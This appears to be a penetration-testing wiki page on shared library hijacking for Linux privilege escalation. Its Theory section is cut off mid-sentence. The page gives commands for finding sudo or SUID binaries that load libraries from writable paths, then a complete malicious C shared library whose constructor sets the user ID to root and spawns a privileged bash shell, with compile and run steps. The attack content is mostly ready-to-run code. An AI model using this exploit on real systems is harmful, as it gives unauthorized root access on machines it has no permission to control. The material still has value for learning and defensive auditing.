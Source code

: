 # Shared Library Hijacking

## Theory

Shared libraries are libraries that are loaded by programs when they start. If

## Practice

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **SUDO** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-sudo-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **SUDO** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a SUID using a non-standard library
ldd the-sudo-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d the-sudo-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you can use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **sudo** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the **SUDO** binary

```bash
sudo the-sudo-bin
```

{% hint style="info" %}
If you get an error such as

```shell-session
./the-sudo-bin: symbol lookup error: ./the-sudo-bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}
